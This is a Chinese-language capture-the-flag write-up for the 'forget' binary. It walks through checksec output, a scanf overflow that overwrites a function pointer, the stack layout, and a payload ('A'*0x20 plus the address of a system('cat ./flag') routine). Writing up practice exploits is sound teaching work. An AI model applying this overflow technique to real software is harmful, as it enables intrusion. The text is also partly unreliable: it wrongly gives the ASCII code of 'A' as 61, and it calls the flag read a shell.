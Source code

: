 1、准备工作
（1）chmod 777 forget
（2）file forget
显示：
forget: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=35930a2d9b048236694e9611073b759e1c88b8c4, stripped
（3）./forget
显示：
What is your name?
> yang

Hi yang


                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> 1345@qq.com                                                                                                     
:) Valid hai! 
（4）脚本checksec：
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
NX启用-所以我们不能在堆栈上执行shellcode

2、分析过程
IDA中F5查看第41行 __isoc99_scanf("%s", &v2);是脆弱点函数，但该函数主函数，没有办法溢出。
1）查看strings window找到"cat %s"以及"./flag"，根据交叉引用找到0x80486cc函数的语句大致为sprintf(command,"cat %s","./flag");system(command);可以直接得到shell。
第88行是将变量强制转换为函数指针类型：(*(&v3 + --v14))();如果v14为1时，可能执行v3，我们可以把0x80486cc的地址放入v3之中。
2）通过输入将0x80486cc的地址放入v3中：仔细观察后发现v2的栈顶位置为0x74，而v3的栈顶位置为0x54，我们可以利用溢出的方法在v2中输入(0x74-0x54)个a，之后再写入0x80486cc
3）将v14的值设为1：需要在
	case 1:
		if ( sub_8048702(*((_BYTE *)&v2 + i)) )
          		v14 = 2;
        	break;
代码中让函数sub_8048702(*((_BYTE *)&v2 + i))返回0
因此v2的值需要在v2 > 96 && v2 <= 122 || v2 > 47 && v2 <= 57 || v2 == 95 || v2 == 45 || v2 == 43 || v2 == 46;的范围之外，我们发现A的ASCII码值为61，满足条件。


栈结构如下：
-00000074                 db ? ; undefined
-00000073                 db ? ; undefined
-00000072                 db ? ; undefined
-00000071                 db ? ; undefined
-00000070                 db ? ; undefined
-0000006F                 db ? ; undefined
-0000006E                 db ? ; undefined
-0000006D                 db ? ; undefined
-0000006C                 db ? ; undefined
-0000006B                 db ? ; undefined
-0000006A                 db ? ; undefined
-00000069                 db ? ; undefined
-00000068                 db ? ; undefined
-00000067                 db ? ; undefined
-00000066                 db ? ; undefined
-00000065                 db ? ; undefined
-00000064                 db ? ; undefined
-00000063                 db ? ; undefined
-00000062                 db ? ; undefined
-00000061                 db ? ; undefined
-00000060                 db ? ; undefined
-0000005F                 db ? ; undefined
-0000005E                 db ? ; undefined
-0000005D                 db ? ; undefined
-0000005C                 db ? ; undefined
-0000005B                 db ? ; undefined
-0000005A                 db ? ; undefined
-00000059                 db ? ; undefined
-00000058                 db ? ; undefined
-00000057                 db ? ; undefined
-00000056                 db ? ; undefined
-00000055                 db ? ; undefined
-00000054                 db ? ; undefined

4）构造payload：
payload='A'*(0x20)+p32(0x80486CC)
